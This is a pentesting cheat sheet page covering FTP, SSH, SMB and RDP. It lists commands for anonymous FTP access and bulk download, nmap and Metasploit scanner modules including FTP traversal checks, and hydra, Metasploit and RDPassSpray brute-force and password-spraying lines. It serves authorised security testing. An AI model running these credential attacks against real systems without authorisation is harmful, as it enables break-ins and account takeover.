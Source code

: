 ```yaml
---
layout: notes
permalink: /notes/network/services/
title: Network Services Pentesting Cheat Sheet
---
```




# Network Services Pentesting Cheat Sheet
<details>
<summary>FTP (21)</summary>
<pre><code class="language-bash">#Login
ftp IP #optional port
lftp IP
anonymous:anonymous

#Commands
cd
ls -a # List all files (even hidden)
put filename #Upload file
get filename #Download file
mput/mget #Upload/Downlaod multiple files
quit

#Download all files
wget -m ftp://anonymous:anonymous@10.10.10.98
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
wget -r --user="USERNAME" --password="PASSWORD" ftp://server.com/ #If your user/password has special characters

#nmap
nmap --script ftp-* -p 21 IP

#metasploit
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/ftp/ftp_login
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/ftp_bounce
use auxiliary/scanner/ftp/bison_ftp_traversal
use auxiliary/scanner/ftp/colorado_ftp_traversal
use auxiliary/scanner/ftp/titanftp_xcrc_traversal

#Enum dirs
gobuster dir -u ftp://IP -w wordlist

#Bruteforce
hydra -t 1 -l {Username} -P {Big_Passwordlist} -vV {IP} ftp
hydra -l ftp -P password.txt ftp://$ip 
hydra -L username.txt -P password.txt ftp://$ip
</code></pre>
</details>

<details>
<summary>SSH (22)</summary>
<pre><code class="language-bash">#Password spraying
hydra -L usernames-list.txt -p Spring2025 ssh://10.1.1.10
</code></pre>
</details>

<details>
<summary>SMB (139/445)</summary>
<pre><code class="language-bash">#metasploit bruteforce
use auxiliary/scanner/smb/smb_login 
</code></pre>
</details>

<details>
<summary>RDP (3389)</summary>
<pre><code class="language-bash">#Password spraying
git clone https://github.com/xFreed0m/RDPassSpray
#Options:
RDPassSpray.py [-h] (-U USERLIST | -u USER  -p PASSWORD | -P PASSWORDLIST) (-T TARGETLIST | -t TARGET) [-s SLEEP | -r minimum_sleep maximum_sleep] [-d DOMAIN] [-n NAMES] [-o OUTPUT] [-V]
#Usage:
python3 RDPassSpray.py -U users.txt -p Spring2025! -t 10.100.10.240:3389
</code></pre>
</details>